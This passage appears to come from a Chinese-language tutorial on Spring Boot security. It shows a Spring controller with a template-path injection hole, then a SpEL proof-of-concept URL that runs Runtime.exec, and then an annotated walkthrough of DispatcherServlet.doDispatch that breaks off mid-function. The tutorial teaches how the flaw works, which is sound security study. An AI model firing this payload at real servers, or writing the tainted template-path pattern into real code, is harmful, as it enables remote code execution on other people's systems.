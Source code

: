 #### 例子 1

观察下面控制函数

```plain
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return "user/" + lang + "/welcome"; //template path is tainted
}
```

正确的 payload：  
`/path?lang=en`  
POC:  
`/path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x`

分析：

### 4.4 SpringBoot 请求解析

#### 请求路由

分析 DispatcherServlet.class 的 doDispatch 函数

```plain
protected void doDispatch(HttpServletRequest request, HttpServletResponse response) throws Exception {
    HttpServletRequest processedRequest = request;
    HandlerExecutionChain mappedHandler = null;
    boolean multipartRequestParsed = false;
    // 获取用于处理异步请求的 WebAsyncManager 对象
    WebAsyncManager asyncManager = WebAsyncUtils.getAsyncManager(request);

    try {
        try {
            // 视图
            ModelAndView mv = null;
            // 异常
            Exception dispatchException = null;

            try {
                // 检查是否是多部分请求，并对请求进行处理
                processedRequest = this.checkMultipart(request);
                // 如果经过处理的请求对象与原始请求对象不同，说明请求是多部分请求，将multipartRequestParsed标志设置为true
                multipartRequestParsed = processedRequest != request;
                // 获取处理器的执行链
                mappedHandler = this.getHandler(processedRequest);
                // 如果没有找到合适的处理器，调用noHandlerFound方法进行处理，并直接返回
                if (mappedHandler == null) {
                    this.noHandlerFound(processedRequest, response);
                    return;
                }
                // 获取与处理器关联的处理器适配器
                HandlerAdapter ha = this.getHandlerAdapter(mappedHandler.getHandler());
                // 获取请求方法
                String method = request.getMethod();
                boolean isGet = "GET".equals(method);
                if (isGet || "HEAD".equals(method)) {
                    // 获取最近修改情况
                    long lastModified = ha.getLastModified(request, mappedHandler.getHandler());
                    if ((new ServletWebRequest(request, response)).checkNotModified(lastModified) && isGet) {
                        return;
                    }
                }
```